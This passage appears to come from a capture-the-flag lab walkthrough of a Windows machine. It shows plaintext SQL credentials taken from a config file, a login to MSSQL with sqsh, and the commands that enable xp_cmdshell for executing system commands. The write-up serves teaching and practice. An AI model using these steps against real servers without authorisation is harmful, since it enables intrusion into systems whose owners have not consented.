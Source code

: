 Reviewing the file contents, provided some useful credentials.

```none
└─$ cat prod.dtsConfig                         
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

User information:

- Username: `ARCHETYPE\sql_svc`
- Password: `M3g4c0rp123`

## MSSQL

Since there seemed nothing else available - started prodding MSSQL. I had credentials, but no idea how to get any remote access using those credentials (still new to MS systems). After some Google-foo, found an interesting article on [Enabling XP_CMDSHELL in SQL Server](https://infinitelogins.com/2020/09/06/enabling-xp_cmdshell-in-sql-server/). The first paragraph sounded good:

> If you ever get access to SQL credentials, you may be able to use a tool to connect to it via command line and execute system commands via "XP_CMDSHELL". However, this feature is not always enabled by default.

I followed the advice given and used `sqsh` to connect to the MSSQL service using the discovered credentials.

```none
└─$ sqsh -S 10.10.10.27 -U ARCHTYPE\\sql_svc -P M3g4c0rp123
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1> 
```

And then tried to enable XP_CMDSHELL using the following commands - where each is run on a different line.

```none
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go

EXEC SP_CONFIGURE 'xp_cmdshell', 1
reconfigure
go
```
